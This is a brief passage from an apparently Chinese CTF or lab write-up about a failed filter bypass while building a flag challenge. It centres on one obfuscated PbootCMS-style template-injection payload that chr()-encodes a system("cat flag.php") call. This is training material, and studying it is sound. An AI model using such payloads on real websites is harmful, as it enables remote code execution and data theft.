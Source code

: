 ![exp1_insert_failure_218](../img/exp1_insert_failure_218.jpg)

## 总结与反思

为漏洞二设计 flag 时出现绕过失败的情况

```shell
{pbootpbootpboot:if:if:if((chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr (0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr (0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr (0x3b)))}!!!{/pbootpbootpboot:if:if:if}
```

![build_bug2_error1_223](../img/build_bug2_error1_223.jpg)
